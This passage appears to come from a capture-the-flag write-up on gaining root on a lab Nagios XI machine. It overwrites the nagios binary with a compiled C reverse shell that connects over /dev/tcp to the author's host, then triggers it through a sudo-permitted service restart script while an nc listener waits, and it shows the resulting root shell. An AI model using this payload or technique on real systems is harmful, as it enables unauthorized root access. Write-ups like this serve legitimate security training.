 My idea is that if we can write the `nagios` binary, and then restart it then we can escalate.
This makes the `manage_services.sh` script seem very promising. Looking at the code we can see how to restart nagios.

Now we just need to craft our own binary to replace this:
```bash
$ file /usr/local/nagios/bin/nagios
/usr/local/nagios/bin/nagios: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b85a64b43ce4caee5faf916c714dc55933e0842d, for GNU/Linux 3.2.0, stripped
```

Simple enough, we'll make a C file that will give us a new reverse shell.
```c
include <stdlib.h>

int main() {
    system("bash -c 'bash -i -p >& /dev/tcp/10.10.15.64/4443 0>&1'");
    return 0;
}
```

Compile, move it, and give it execute perms:
```bash
$ gcc exploit.c -o exploit
$ mv exploit /usr/local/nagios/bin/nagios
$ chmod +x /usr/local/nagios/bin/nagios
```

Now if we listen on 4443 and run `manage_services.sh`, we can get root.
```bash
$ nc -lvnp 4443
listening on [any] 4443 ...
```

```bash
$ sudo /usr/local/nagiosxi/scripts/manage_services.sh restart nagios
```

```bash
connect to [10.10.15.64] from (UNKNOWN) [10.129.230.96] 37076
bash: cannot set terminal process group (78221): Inappropriate ioctl for device
bash: no job control in this shell
root@monitored:/# whoami
root
```